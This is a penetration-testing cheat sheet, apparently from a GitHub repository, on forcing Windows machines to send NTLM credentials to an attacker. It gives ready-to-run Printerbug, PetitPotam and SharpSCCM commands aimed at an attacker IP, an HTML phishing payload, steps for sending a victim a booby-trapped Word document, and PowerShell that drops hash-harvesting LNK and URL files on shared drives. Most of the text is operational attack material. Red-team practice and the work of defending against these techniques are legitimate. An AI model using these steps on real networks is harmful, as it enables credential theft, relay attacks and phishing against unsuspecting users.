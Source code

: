 # Trigger Incoming SMB Connections
## Printerbug
https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py   

Simple tool to trigger SpoolService bug via RPC backconnect. Similar to dementor.py.    
`# python3 printerbug.py domain/USER:password@target.domain.local ATTACKER_IP`   
 
### Using SpoolSample
The Printerbug can also be triggered from Windows using the "SpoolSample" tool: https://github.com/leechristensen/SpoolSample   

**Check Spooler Remotely**   
To check if the spooler is active on the remote target, there are different methods:   
- For DCs, you can use PingCastle   
- For manually checking a specific target with PowerShell, use: https://raw.githubusercontent.com/vletoux/SpoolerScanner/master/SpoolerScan.ps1
- For manually checking a specific target with Python, use: https://github.com/SecureAuthCorp/impacket/blob/master/examples/rpcdump.py

## Word Document with Remote Template

In a Word document you can use the target property for a Word Template to insert UNC paths.
1. Create new docx file from a template (choose any built in template, e.g. “Business Letter”)
2. Save the docx and open it with the vim editor
3. Open the containing file `word/_rels/settings.xml.rels`  
4. Change the value of the Target property, so that it points to your listening instance (e.g. Responder) using a UNC path.
5. Save the file and send / provide it to your victim. Once the victim opens the document, the connection is triggered by Word (you should receive the NetNTLMv2 hash of the logged in user)

## PetitPotam
https://github.com/topotam/PetitPotam   
PoC tool to coerce Windows hosts to authenticate to other machines via MS-EFSRPC EfsRpcOpenFileRaw function.
It doesn't need credentials against Domain Controller.

`# python3 PetitPotam.py -d 'domain' -u 'user' -p 'password' ATTACKER_IP TARGET`   

## Phishing email with <img> tag
Payload template
```
<html>
<body>
<img src="\\<ATTACKER VM>\someicon.ico" height="1" width="1" />
</body>
</html>
```

**Outlook**   
For some reason outlook only allows to embed an HTML file if it is attached through the quick access bar.
First you need to show the quick access toolbar, then customize the quick access toolbar by adding the command "Attach File" (More Commands...).
You can then attach the HTML payload to your email (Make sure you click on the dropdown and "Insert as Text")

## Shortcut (LNK Files)
Trigger SMB connection using a shortcut, by setting its icon location to a UNC path (e.g. kali running Responder):   
```
$wsh = new-object -ComObject wscript.shell
$shortcut = $wsh.CreateShortcut("\\computername\software\test.lnk")
$shortcut.IconLocation = "\\10.10.10.1\test.ico"
$shortcut.Save()
```
A good location for such a file would be a central SMB share where many people have read access. (Or a share where the IT admins are regularly connecting to...)

## URL Files
Same as with .lnk files, Internet Shortcuts (.url files) can be used.   
url file example:   
```shell
# cat newshortcut.url
[InternetShortcut]
URL=test
WorkingDirectory=test
IconFile=\\<responder-ip>\harvest\%USERNAME%.icon
IconIndex=1
```
Using PowerShell:   
```powershell
$wsh = new-object -ComObject wscript.shell
$shortcut = $wsh.CreateShortcut("c:\users\bob\test\newshortcut.url")
$shortcut.TargetPath = "https://somewebsite"
$shortcut.save()
Add-Content -Path $shortcut.FullName -Value "IconFile=\\<responder-ip>\harvest\%USERNAME%.icon"
Add-Content -Path $shortcut.FullName -Value "IconIndex=1"
```
 
Now find for example a writeable SMB share where you can drop this file and copy the url file to it. (Remember to start Responder on your attacker host)   

Example using smbmap:   
`python3 smbmap.py -u username -p 'secret' -d domain -H <ip of host of smb share> --upload /path/to/your/urlfile 'sharename/newshortcut.url'`   
Now, once someone browses to this share, you should see hashes popping up in your Responder instance.

## MSSQL
If you happen to find an MSSQL instance where you have access (using PowerUpSQL) and you can run either 'xp_fileexist' or 'xp_dirtree', you can try to use those to trigger an authenticated ntlm connection from the SQL service account to e.g. your responder instance.

## SCCM
If you are on a SCCM managed device with a low privileged user, you can force the SCCM service to authenticate.   
Full blog post by SpecterOps: https://posts.specterops.io/coercing-ntlm-authentication-from-sccm-e6e23ea8260a    

**Prerequisites**   
In order for this to work, the configuration of the SCCM has to be set to:   
- Enable automatic site-wide client push installation
- PKI certificates aren't required for client authentication
- Allow connection fallback to NTLM (Which is the default as of Januar 2023 → [Deploy clients to Windows - Configuration Manager ](https://learn.microsoft.com/en-us/mem/configmgr/core/clients/deploy/deploy-clients-to-windows-computers#configure-the-site-to-automatically-use-client-push-for-discovered-computers))

**Exploitation**   
First identify the SCCM siteinfo which provides us with the sitecode, using e.g. the tool "SharpSCCM" ([GitHub - Mayyhem/SharpSCCM: A C# utility for interacting with SCCM](https://github.com/Mayyhem/SharpSCCM) ).

`SharpSCCM.exe local siteinfo`   
Example output: (sitecode is ROO)   
```shell
[ ... ] 
SMS_Authority
--------------------
CurrentManagementPoint: SCCM.domain.local
Name: SMS:ROO
[ ... ]
```
Trigger the connection towards your Responder instance (in the following example, Responder is running on 10.10.10.1):   
`SharpSCCM.exe SCCM.domain.local ROO invoke client-push -t 10.10.10.1`   
After about 10 seconds you should receive two NTLM hashes:   
- The NTLM hash for the SCCM service account
- The NTLM hash of the SCCM machine account (indicated by the $ after the name)

## ADCS 
Certain ADCS vulnerabilities like ESC8 and ESC11 can be used in NTLM relaying attacks.   
Tools like SpoolSample or Dementor can be for example used to coerce a machine account to connect to the attacker machine, which then the attacker can use to enroll certificates in the victim machines name.
Another method used in the ESC11 vulnerability is to relay using the RPC interface of the certificate authority, which is described in the following blog post:   
https://blog.compass-security.com/2022/11/relaying-to-ad-certificate-services-over-rpc/   
To identify the ESC11 vulnerability, the following fork of the certipy tool has to be used: https://github.com/sploutchy/Certipy

## WebDAV
WebDAV is a file server over HTTP. The service WebClient is present on workstations by default (Not on server OS). This produces an HTTP hash which can be relayed to LDAP.

**Prerequisites**   
- Requires the system’s NetBIOS name
- Must be in the "local intranet" zone 
- Requires DNS record
  - Either poisoned in the local subnet using Responder
  - Create a DNS A record pointing to an external IP (Check ADIDNS --> https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/adidns-spoofing or https://www.netspi.com/blog/technical/network-penetration-testing/exploiting-adidns/)
